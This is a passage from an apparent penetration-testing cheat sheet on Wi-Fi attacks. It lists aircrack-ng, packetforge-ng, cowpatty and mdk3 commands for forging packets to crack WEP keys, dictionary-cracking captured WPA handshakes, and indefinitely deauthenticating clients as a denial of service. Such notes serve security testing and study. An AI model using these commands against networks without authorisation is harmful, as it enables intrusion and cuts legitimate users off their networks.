 #### No-Client Associated Attacks - PRGA-Packetforge Interactive Attack

Suitable for when there are no associated clients to run active arp-replay attack against. This method attempts to obtain Pseudo Random Generation Algorithm (PRGA) to create forged packet to playback. Involves running fakeauth to target AP and fragmentation attack to obtain PRGA, allowing creation of new frames to generate IVs needed to recover WEP key. Advantage is attacker is not limited to waiting for data frame bearing ARP payload, may be faster.

- `aireplay-ng --fakeauth 15 -e <ESSID> -a <BSSID> -h <client MAC> <interface>` *Fakeauth attack*
- `aireplay-ng --fragment -b <BSSID> -h <client MAC> <interface>` *Wait for detected frames, prompts user to obtain PRGA from AP, may need a few attempts to get full 1500 byte keystream*
- `packetforge-ng --arp -a <BSSID> -h <client MAC> -l 255.255.255.255 -k 255.255.255.255 -y fragment.xor -w arprequest` *Creates ARP frame, with source and destination IP of 255.255.255.255, using captured PRGA*
- `aireplay-ng --interactive -r arprequest <interface>` *Injects crafted ARP request to AP`

---

### Cracking

#### WEP

- Korek (>500k IVs): `aircrack-ng -a 1 -b <BSSID> <filename>`
- PTW (>20k IVs for 40-bit key (10 characters) or >40k IVs for 104-bit keys (26 chars)): `aircrack-ng -b <BSSID> <filename>`

#### WPA

Run deauthentication attacks first and capture packets with airodump.
- Default Attack: `cowpatty -f <dictionary-file> -r <packetdump-file> -s <SSID>`
- CoWPAtty Nonrestrict Mode: `cowpatty -2 -f <dictionary-file> -r <packetdump-file> -s <SSID>`
- Wireshark Cleanup: Using Wireshark, identify one valid 4-way handshake, mark and save as, run cowpatty on cleaned file
- Aircrack: `aircrack-ng -a 2 -e <SSID> -b <BSSID> -w <dictionary> <packetdump>`
- Retry: Rerun airodump-ng and deauthentication attacks until valid 4-way handshake is obtained

### Denial of Service

Using MDK3
- `mdk3 <interface> a -i <BSSID>` *Deauthenticate all clients connected to AP*
- `mdk3 <interface> d -b <list of MAC addresses> -c <channel>` *Deauthenticates clients part of the network contained in list*

Using Aireplay
- `aireplay-ng --deauth 0 -a <BSSID> -c <client MAC> <interface>` *Indefinitely deauthenticate a client*
- `aireplay-ng --deauth 0 -a <BSSID> <interface>` *Indefinitely deauthenticate all clients connected to AP*

---

### AP Association
